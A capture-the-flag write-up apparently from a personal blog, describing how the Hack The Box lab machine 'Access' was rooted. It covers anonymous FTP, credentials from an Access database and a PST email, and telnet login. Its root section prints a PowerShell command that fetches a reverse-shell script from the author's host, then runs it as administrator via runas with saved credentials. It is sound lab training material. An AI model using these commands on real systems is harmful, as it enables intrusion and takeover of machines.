 ```yaml
---
layout: post
title: "Hack The Box: Access write-up"
date: 2018-11-11
excerpt: "Windows machine with a ftp anonymous connection and a db backup? Not a good idea... And what about runas with Admin? Even worse! "
tags: [Hack The Box, Pentesting, Microsoft Access DB,  Windows,  FTP,  Telnet]
categories: [Hack The Box]
comments: true
feature: /assets/posts_details/Access/images/header.png
---
```


# Hack The Box: Access machine write-up

Yet again another Windows machine rooted! This machine was quite tricky for me in the sense that I came across different problems that weren't supposed to be found (like downloading files through FTP without binary mode ON) but in the end I managed to follow the expected path to get the hash. The way to root is first through an anonymous ftp connection from which we obtain some creds to log in through telnet. From there, a simple manual enumeration shows that there are stored credentials and therefore we can run commands as administrator. Let's dig in!

The machine is running on port 10.10.10.98.

### Enumeration

Firstly, I enumerate open ports to discover the services running in the machine (I added access to my ``/etc/hosts`` as access):

```sh
nmap -sV -sC -oA nmap/initial access
```

```console
# Nmap 7.01 scan initiated Sun Nov  4 14:36:32 2018 as: nmap -sV -sC -oA nmap/initial access
Nmap scan report for access (10.10.10.98)
Host is up (0.030s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
|_ftp-anon: ERROR: Script execution failed (use -d to debug)
|_ftp-bounce: no banner
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov  4 14:39:24 2018 -- 1 IP address (1 host up) scanned in 171.78 seconds
```

### Enumeration of the services

#### Web service

We can see three services running so let's check the web service first on port 80.

*Contents of webpage*

![Img](/assets/posts_details/Access/images/website.png "Img")

I ran Dirb and DirBuster however nothing was found and I moved on to the other two services.

#### FTP

So let's check port 21. As it was asking for username I tried to log in anonymously and it worked (``anonymous`` as username and no password). Once in, we can see two directories: ``Backups`` and ``Engineer``. In the first one I find a file called ``backup.mdb`` and in the other ``Access Control.zip``. In order to have a look at them I download them with ```mget filename```.

**However, it is really important to set binary mode, otherwise the .mdb file won't be transferred properly and you won't be able to read it. You can do so by typing** ``binary``.

Having downloaded both files I can see that the zip is password protected, so I'll have to go to the .mdb file. The extension translates to <i>Microsoft Access Database</i>. Then, I  downloaded a tool which will let me see the contents of the database: ``gmdb2``.

To install: ``apt-get install mdbtools-gmdb``.

Then to query the db we just need to run: ``gmdb2 backup.mdb``.

The tool uses a visual interface, so by inspecting the names of the tables we can finally come across an interesting one: ``auth_user``.

*Visual interface of the tool*

![Img](/assets/posts_details/Access/images/visual_interface.png "Img")

*Contents of auth_user table*

![Img](/assets/posts_details/Access/images/auth_user.png "Img")

Now, with those creds I tried to log in to telnet, but no luck. Then I remembered that I still had the zip file, so I tried to open it with the credentials. Yay!

The zip opened with password ``access4u@security``.

Inside there was a file called ``Access Control.pst``. PST files are Microsoft Outlook files, so in order to be able to see the email I tried to [convert](https://www.coolutils.com/online/PST-to-MBOX) it to another format (.eml) and successfully viewed it on my OSX machine:

*Contents of email (.pst file)*

![Img](/assets/posts_details/Access/images/mail.png "Img")

### Telnet

With the new credentials we can log in through telnet: ``security:4Cc3ssC0ntr0ller``. Navigating the system we eventually get the user flag.

*Getting user flag*

![Img](/assets/posts_details/Access/images/user.png "Img")

## Root

Getting to Administrator wasn't too difficult, we just needed to check if we could execute ``runas`` with admin credentials. For that, I ran the command ``cmdkey /list``:

*Discovering that we can runas Administrator*

![Img](/assets/posts_details/Access/images/cmd.png "Img")

With that said, the only thing needed was download a reverse ps script from my local machine and then execute the ``runas`` command with the credentials saved and current environment. The command I used needed to bypass ExecutionPolicy in order to be able to connect back to my reverse shell.

```console
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.175:8001/minRev.ps1','C:\Users\security\rev.ps1')"
```

```console
runas /env /savecred /user:administrator "powershell -ExecutionPolicy ByPass -File rev.ps1"
```

*Reverse shell as Administrator*

![Img](/assets/posts_details/Access/images/root.png "Img")

---
<center><i>Diego Bernal Adelantado</i></center>
